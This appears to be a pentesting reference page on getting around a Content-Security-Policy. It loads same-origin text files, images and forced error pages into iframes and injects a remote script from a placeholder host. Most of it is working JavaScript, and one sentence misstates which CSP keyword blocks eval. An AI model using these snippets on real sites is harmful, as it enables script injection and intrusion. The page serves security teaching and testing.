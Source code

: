 {{#include ../../banners/hacktricks-training.md}}

A configuration such as:

```
Content-Security-Policy: default-src 'self' 'unsafe-inline';
```

Prohibits usage of any functions that execute code transmitted as a string. For example: `eval, setTimeout, setInterval` will all be blocked because of the setting `unsafe-eval`

Any content from external sources is also blocked, including images, CSS, WebSockets, and, especially, JS

### Via Text & Images

It's observed that modern browsers convert images and texts into HTML to enhance their display (e.g., setting backgrounds, centering, etc.). Consequently, if an image or text file, such as `favicon.ico` or `robots.txt`, is opened via an `iframe`, it's rendered as HTML. Notably, these pages often lack CSP headers and may not include X-Frame-Options, enabling the execution of arbitrary JavaScript from them:

```javascript
frame = document.createElement("iframe")
frame.src = "/css/bootstrap.min.css"
document.body.appendChild(frame)
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```

### Via Errors

Similarly, error responses, like text files or images, typically come without CSP headers and might omit X-Frame-Options. Errors can be induced to load within an iframe, allowing for the following actions:

```javascript
// Inducing an nginx error
frame = document.createElement("iframe")
frame.src = "/%2e%2e%2f"
document.body.appendChild(frame)

// Triggering an error with a long URL
frame = document.createElement("iframe")
frame.src = "/" + "A".repeat(20000)
document.body.appendChild(frame)

// Generating an error via extensive cookies
for (var i = 0; i < 5; i++) {
  document.cookie = i + "=" + "a".repeat(4000)
}
frame = document.createElement("iframe")
frame.src = "/"
document.body.appendChild(frame)
// Removal of cookies is crucial post-execution
for (var i = 0; i < 5; i++) {
  document.cookie = i + "="
}
```

After triggering any of the mentioned scenarios, JavaScript execution within the iframe is achievable as follows:

```javascript
script = document.createElement("script")
script.src = "//example.com/csp.js"
window.frames[0].document.head.appendChild(script)
```

## References

- [https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/](https://lab.wallarm.com/how-to-trick-csp-in-letting-you-run-whatever-you-want-73cb5ff428aa/)

{{#include ../../banners/hacktricks-training.md}}
